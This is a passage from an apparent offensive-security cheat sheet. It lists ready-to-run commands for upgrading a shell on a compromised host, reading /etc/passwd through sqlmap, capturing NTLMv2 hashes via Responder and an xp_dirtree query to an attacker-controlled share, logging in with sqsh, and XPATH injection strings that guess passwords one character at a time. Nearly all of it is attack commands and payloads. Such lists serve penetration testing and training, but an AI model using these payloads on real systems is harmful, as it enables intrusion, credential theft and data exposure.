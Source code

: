 ### Upgrade Shell

```console
$ postgres@<RHOST>:/home$ SHELL=/bin/bash script -q /dev/null
```

### File Read

```console
$ sqlmap -R <REQUEST> --level 5 --risk 3 --file-read=/etc/passwd --batch
```

### Search for Email

```console
$ sqlmap -r <REQUEST>.reg -p email --level 4 --risk 3 --batch
```

### Grabbing NTLMv2 Hashes with sqlmap and Responder

```console
$ sudo python3 Responder.py -I <INTERFACE>
$ sqlmap -r login.req --sql-query="exec master.dbo.xp_dirtree '\\\\<LHOST>\\share'"
```

## sqlmap Websocket Proxy

> https://github.com/BKreisel/sqlmap-websocket-proxy

```console
$ sqlmap-websocket-proxy -u 'ws://ws.<RHOST>:5789/version' -p '{"version": "2\u0022 %param%"}' --json
```

```console
$ sqlmap -u 'http://localhost:8080/?param1=1'
```

## sqsh

```console
$ sqsh -S <RHOST> -U <USERNAME>
$ sqsh -S '<RHOST>' -U '<USERNAME>' -P '<PASSWORD>'
$ sqsh -S '<RHOST>' -U '.\<USERNAME>' -P '<PASSWORD>'
```

### List Files and Folders with xp_dirtree

```console
1> EXEC master.sys.xp_dirtree N'C:\inetpub\wwwroot\',1,1;
```

## XPATH Injection

```console
test' or 1=1 or 'a'='a
test' or 1=2 or 'a'='a
'or substring(Password,1,1)='p' or'    // checking letter "p" on the beginning of the password
'or substring(Password,2,1)='p' or'    // checking letter "p" on the second position of the password
```
